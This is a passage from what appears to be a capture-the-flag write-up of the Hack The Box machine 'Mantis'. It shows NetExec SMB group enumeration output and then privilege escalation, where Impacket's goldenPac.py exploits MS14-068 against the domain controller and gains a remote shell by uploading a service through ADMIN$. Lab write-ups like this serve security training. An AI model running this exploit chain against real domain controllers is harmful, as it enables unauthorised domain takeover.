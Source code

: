 SMB         10.10.10.52     445    MANTIS           Cert Publishers                          membercount: 0
SMB         10.10.10.52     445    MANTIS           Enterprise Admins                        membercount: 1
SMB         10.10.10.52     445    MANTIS           Schema Admins                            membercount: 1
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Cryptographic Operators                  membercount: 0
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Remote Desktop Users                     membercount: 1
SMB         10.10.10.52     445    MANTIS           Replicator                               membercount: 0
SMB         10.10.10.52     445    MANTIS           Backup Operators                         membercount: 0
SMB         10.10.10.52     445    MANTIS           Print Operators                          membercount: 0
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Administrators                           membercount: 3
</code></pre>

NetExec's output let us know that:

1. `james` is a domain and not a local user.
2. SMB includes just the default shares.
3. There are no other users than `james` and the default accounts.
4. There are some interesting domain groups but we can't do anything with them at the moment.

## Privilege Escalation

### MS14-068

We know from our Nmap scan that the operating system is **Windows Server 2008 R2 Standard 7601 Service Pack 1**. Upon searching for "_Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 exploit domain controller"_ the [MS14-068 (Critical)](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-068) vulnerability comes up which is a **vulnerability in Kerberos that could allow elevation of privilege**. We can use Impacket's [goldenPac](https://github.com/fortra/impacket/blob/master/examples/goldenPac.py) script to exploit this flaw.

{% code overflow="wrap" %}
```
$ /usr/local/bin/goldenPac.py HTB.LOCAL/james@mantis
/usr/local/bin/goldenPac.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.12.0.dev1+20231027.123703.c0e949fe', 'goldenPac.py')
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file FqgDtbBE.exe
[*] Opening SVCManager on mantis.....
[*] Creating service odQI on mantis.....
[*] Starting service odQI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
# check context
```